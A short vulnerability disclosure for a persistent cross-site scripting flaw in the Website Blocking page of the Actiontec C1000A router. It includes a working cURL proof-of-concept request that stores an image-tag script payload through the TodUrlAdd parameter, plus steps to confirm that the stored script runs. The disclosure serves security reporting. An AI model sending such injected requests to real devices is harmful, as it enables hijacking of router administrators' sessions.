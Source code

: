 # Persistent XSS in the Actiontec C1000A Website Blocking page
**Vendor**: Actiontec

**Product**: C1000A

**Firmware Version**: CAC004-31.30L.95


## Verification:
1. Make an HTTP request to the router where 192.168.0.1 is the router's local IP address, for example with this cURL POC:
```
curl "http://192.168.0.1/urlfilter.cmd?action=set_url&TodUrlAdd=<img+src=x+onerror=\"alert(String.fromCharCode(88,83,83))\"/>&Lan_IP=192.168.0.2&listtype=Exclude" -X POST
```
(The HTML payload is passed in the `TodUrlAdd` parameter. Even though this is a POST request, parameters are still passed in the URL.)

2. Open up the page Advanced Setup -> Website Blocking (/advancedsetup_websiteblocking.html) to verify that the XSS is there. It should show an alert box with the text "XSS".

